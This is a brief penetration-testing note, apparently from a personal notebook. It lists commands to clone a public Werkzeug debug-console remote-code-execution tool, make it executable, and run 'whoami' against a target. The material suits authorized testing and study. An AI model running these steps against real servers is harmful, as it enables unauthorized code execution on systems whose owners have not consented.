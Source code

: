 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

https://github.com/its-arun/Werkzeug-Debug-RCE

```bash - kali
git clone https://github.com/its-arun/Werkzeug-Debug-RCE.git
```

```bash - kali
cd Werkzeug-Debug-RCE
```

```bash - kali
chmod +x werkzeug.py
```

```bash - kali
python2 werkzeug.py $TARGET whoami
```
